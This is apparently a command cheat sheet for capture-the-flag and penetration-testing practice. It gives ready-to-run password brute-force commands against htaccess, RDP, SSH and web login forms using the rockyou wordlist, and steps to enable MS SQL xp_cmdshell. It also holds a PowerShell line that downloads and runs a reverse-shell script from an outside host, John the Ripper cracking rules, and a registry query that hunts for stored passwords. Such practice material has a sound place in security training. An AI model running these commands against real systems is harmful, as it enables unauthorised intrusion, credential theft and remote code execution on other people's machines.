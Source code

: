 # Command reference for CTFs and pen testing practice



## Network Brute Force Commands

### htacess
`medusa -h <ip> -u user -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/blocked_dir`

### RDP
`crowbar -b rdp -s <ip> -u user -C /usr/share/wordlists/rockyou.txt -n 1`

### SSH
`hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://<ip> -f -v`

### HTTP Post
`hydra <ip> http-form-post "/loginpage.php:user=admin&pass=^PASS^:<login failure message>" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f`


## MS SQL RCE and Rev shell

`sqsh -U sa -S <ip>:<port>`

### test xp cmdshell
`xp_cmdshell 'whoami'`
`go`

### if necessary, enable xp_cmdshell
`EXEC SP_CONFIGURE 'show advanced options',1`
`reconfigure`
`go`


`EXEC SP_CONFIGURE 'xp_cmdshell',1`
`reconfigure`
`go`

### Rev shell options 
#### Will be tough if AV is running, try surveying system from here to find a better access method

`xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring('http://1.1.1.2/rev.ps1')"`
`go`

can also try certutil or powershell wget (if newish PSVersion)



## John Wordlist Mutation

### Will use Wordlist mode rules from /etc/john/john.conf
`john --rules --wordlist=wordlist.txt hashes.txt`

`john --rules --stdout --wordlist=wordlist.txt > mutated_wordlist.txt`


## John Wordlist Rules

`[List.Rules:Wordlist]`

`$[0-9]`

`$[0-9]$[0-9]`
`cAz"[0-9]"`
`cAz"[0-9][0-9]"`
`cAz"[£!$]"`
`cAz"[0-9][£!$]"`

#### or add to a custom rules list like [List.Rules:MyRule]
`john --rules=MyRule --wordlist=wordlist.txt hashes.txt`

 a good one to use is --rules=Jumbo



## Windows Misc

### Search through registry for "pass" in value name
`reg query HKLM /f pass /t REG_SZ /s`
